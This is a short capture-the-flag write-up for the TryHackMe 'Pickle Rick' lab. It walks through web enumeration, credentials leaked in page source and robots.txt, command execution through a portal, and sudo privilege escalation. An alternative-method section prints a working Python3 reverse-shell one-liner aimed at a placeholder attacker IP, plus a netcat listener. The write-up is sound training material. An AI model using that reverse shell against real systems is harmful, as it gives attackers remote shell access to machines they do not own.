 # Pickle Rick Writeup

This CTF is a very easy but also one of my first ever done CTF.
It is on tryhackme, link: https://tryhackme.com/room/picklerick   

---  
<br>  

![show](image_1.png)   


## I first ran nmap, nikto and gobuster:   

![nikto,gobuster and nmap](image_2.png)

We can find:
/login.php (200)
/robots.txt(200)

and in 300:
/portal.php
/assets
  
After the basic enumeration, I looked a bit in the developer tools and,
I found something interesting in the source code:  

![username](image_3.png)   

I then took a look at robots.txt:

![password](image_4.png)   

We can then try it in the login page, and .... It works!  

![login](image_5.png)  

![portal.php](image_6.png) 

In the writable field you can then write commands, for example "whoami":  

![whoami](image_7.png)  

After a ls -al command you can see "Sup3rS3cretPickl3Ingred.txt", but you can't cat it...   

![cat](image_8.png)  

So I tried to less it, and it works!

![flag1](image_9.png) 

You can actually already find the second flag 

![flag2](image_10.png)

BUT when using the command "sudo -l" to see what command we can run, we see something interesting:

![sudo](image_11.png)

We can run all commands with no password.
SO, we can run "sudo ls -al /root" And there it is!

![flag3](image_12.png)

So with a simple "sudo less /root/3rd.txt, We get the 3rd and last flag!

---
# Other technique of resolution   

This works, but isn't the cleanest technique, we could also send a reverse shell, the python one works, but only python3!  

From: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  

### Don't foget to put your IP and port if you want!  
<br>  

- Shell: export RHOST="<IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

- Listener: nc -lvnp 4444   
  
You can then work directly from your terminal!

![shell](image_13.png)  

---  

# Hope you enjoyed it!

### Contact: alex.spiesberger@gmail.com





  

